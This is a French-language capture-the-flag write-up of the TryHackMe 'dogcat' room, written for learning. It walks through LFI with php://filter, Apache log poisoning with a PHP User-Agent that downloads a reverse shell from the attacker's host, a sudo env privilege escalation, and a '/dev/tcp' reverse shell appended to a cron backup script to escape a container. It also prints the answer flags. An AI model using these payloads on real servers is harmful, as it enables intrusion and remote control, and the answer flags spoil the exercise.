



# dogcat #

## Task 1 Dogcat ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.63.211 dogcat.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A dogcat.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 15:44 CEST
Nmap scan report for dogcat.thm (10.10.63.211)
Host is up (0.061s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/27%OT=22%CT=1%CU=42642%PV=Y%DS=2%DC=T%G=Y%TM=6128EC6
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=100%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   38.95 ms 10.9.0.1
2   58.58 ms dogcat.thm (10.10.63.211)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.63 seconds
```

Ici on voit deux services : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   



Sur le site quand on choisit un choix entre chat et chien on voit que le choix est passé par lien dans la variable view.   



On voit d'après les messages d'erreur que le site est vulnérable à l'injection de fichier à distance LFI.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://dogcat.thm//?view=php://filter/read=convert.base64-encode/resource=./dog/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==    </div>
</body>

</html>

tim@kali:~/Bureau/tryhackme/write-up$ echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Ici on récupère le fichier index.php, ici on est obligé de le coder pour par que le site interprète le code php.
D'après le code on voit cat et chien sont obligatoire dans la variable.   



On remarque on peut lire les logs d'apache donc il est possible de faire du log poisonning.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-27 16:24:03 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On prépare notre reverse shell et on lance un serveur http pour téléverser notre reverse shell sur la machine cible.   


```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -A  "<?php file_put_contents('shell.php', file_get_contents('http://10.9.228.66:8000/php-reverse-shell.php'))?>" -v  http://dogcat.thm/?view=cat 
*   Trying 10.10.164.184:80...
* Connected to dogcat.thm (10.10.164.184) port 80 (#0)
> GET /?view=cat HTTP/1.1
> Host: dogcat.thm
> User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://10.9.228.66:8000/php-reverse-shell.php'))?>
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Fri, 27 Aug 2021 15:19:14 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.3
< Vary: Accept-Encoding
< Content-Length: 456
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!
    </div>
</body>

</html>
* Connection #0 to host dogcat.thm left intact
```

On modifier notre user agent pour qu'il télécharge le reverse shell, la modification sera enregistrée dans les logs d'apache.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://dogcat.thm/?view=dog../../../../../var/log/apache2/access.log\&ext=
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!10.9.228.66 - - [27/Aug/2021:15:19:09 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.9.228.66 - - [27/Aug/2021:15:19:14 +0000] "GET /?view=cat HTTP/1.1" 200 653 "-" ""
127.0.0.1 - - [27/Aug/2021:15:19:28 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [27/Aug/2021:15:20:07 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [27/Aug/2021:15:20:50 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [27/Aug/2021:15:21:32 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [27/Aug/2021:15:22:12 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
10.9.228.66 - - [27/Aug/2021:15:22:30 +0000] "GET /?view=dog../../../../../var/log/apache2/access.log HTTP/1.1" 200 1028 "-" "curl/7.74.0"
127.0.0.1 - - [27/Aug/2021:15:22:52 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
    </div>
</body>

</html>
```

On lit les logs d'apache pour télécharger notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour avoir une connexion à notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://dogcat.thm/shell.php
```

On exécute notre reverse shell.   

**What is flag 1?**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.164.184] 52782
Linux 581188c1418c 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 15:28:09 up 12 min,  0 users,  load average: 0.11, 0.84, 0.92
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ find / -name flag.* 2>/dev/null
/var/www/html/flag.php
$ cat /var/www/html/flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

On a notre reverse shell.   
En faisant une recherche sur la mot flag on trouve le 1 er flag.   

La réponse est : flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}   

```bash
$ sudo -l
Matching Defaults entries for www-data on 581188c1418c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 581188c1418c:
    (root) NOPASSWD: /usr/bin/env
```

On voit que env peut être exécuté avec les droits root.    

```bash
$ sudo /usr/bin/env /bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```

Avec env on obtient un shell avec les droits root.     
Pour plus de détails regardez [gtfobins](https://gtfobins.github.io/gtfobins/env/)

**What is flag 2?**

```bash
find / -name flag*.* 2>/dev/null
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
/root/flag3.txt
cat /var/www/flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}

```

Avec la commande find on trouve 2 autre flag.   
On lit le deuxième flag.   

Le deuxième flag est : THM{LF1_t0_RC3_aec3fb}    

**What is flag 3?**

```bash
cat /root/flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

On lit le troisième flag.  

La réponse est : THM{D1ff3r3nt_3nv1ronments_874112}    

**What is flag 4?**

```bash
cd /opt/backups/
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

On voit que dans \/opt\/backup/ on a un conteneur.  

On va utiliser le script pour se connecter en reverse shell dans le conteneur.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1773
listening on [any] 1773 ...
```

Sur notre machine on écoute le port 1773 pour établir une connexion avec le reverse shell.  

```bash
echo 'bash -i >& /dev/tcp/10.9.228.66/1773 0>&1' >> backup.sh
```

On ajoute notre reverse shell dans le script et on attend 1 minute. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1773
listening on [any] 1773 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.164.184] 40358
bash: cannot set terminal process group (3809): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt	
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

On obtient le dernier shell du conteneur.    
On lit le fichier flag4.txt.    

La réponse est : THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}    